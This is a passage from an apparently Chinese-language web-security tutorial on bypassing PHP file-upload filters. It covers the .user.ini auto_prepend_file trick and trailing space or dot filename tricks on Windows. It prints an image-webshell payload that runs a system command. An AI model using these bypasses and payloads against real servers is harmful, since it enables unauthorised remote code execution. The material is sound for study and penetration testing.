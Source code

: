 * 上传.user.ini

应用场景

- 服务器脚本语言为PHP，并且使用**CGI/FastCGI**模式，php版本>5.3.0
- **上传目录下要有可执行的php文件**
- 服务器脚本语言为PHP

`.user.ini`，它会影响`php.ini`中的配置，从而将指定的文件内容按php来解析，影响的范围该文件所在的目录以及子目录。需要等待`php.ini`中的`user_ini.cache_ttl`设置的时间或重启Apache才能生效，且只在php5.3.0之后的版本才生效。`.user.ini`比`.htaccess`用的更广，不管是`nginx/Apache/IIS`,只要是以`fastcgi`运行的php都可以用这个办法。如果使用Apache，则用`.htaccess`文件有同样的效果。

注意：`.htaccess`只能用于Apache。

在`php.ini`中，有两个新的INI指令

```php
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
; 用户自定义的php.ini文件的名字，默认是.user.ini
user_ini.filename = ".user.ini"

; TTL for user-defined php.ini files (time-to-live) in seconds. Default is 300 seconds (5 minutes)
; 重新读取用户INI文件的时间间隔，默认是300秒（5分钟）
user_ini.cache_ttl = 300
```

大致意思是：我们指定一个文件（如，xxx.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：`require(./xxx.jpg);`

这两个设置的区别只是在于`auto_prepend_file`是在文件前插入；`auto_append_file`在文件最后插入（当文件调用`exit()`时该设置无效）。

利用方法：

可以上传一个这样的`.user.ini`

```php
auto_prepend_file = xxx.jpg
```

然后再上传一个图片马`xxx.jpg`

```php
<script language='php'>system('whoami');</script>
```

如果在上传目录中还有一个可执行的php文件，访问php文件，就达到了执行系统命令的效果。

总结一下：上传目录中有一个可执行的php文件，我们先上传一个`.user.ini`文件，这个文件的内容为`auto_prepend_file=xxx.jpg`。起到的作用相当于在可执行的php文件前插入图片马中的内容。然后图片马中的恶意代码也会被当做PHP解析。

* 空格绕过

应用场景：服务器为Windows平台，在对用户上传的文件名进行处理时，没有使用`trim()`函数去除字符串收尾处的空白字符。

```php
利用方式：用户上传图片马时，用Burp拦截，在文件尾部加入空格。例如：shell.php空格。带有空格的后缀可以绕过黑名单的检测，而文件存在在Windows服务器上，会自动去除后缀中的空格。
```

* 点绕过

应用场景：Windows平台，服务端没有使用`deldot()`删除文件名末尾的点。
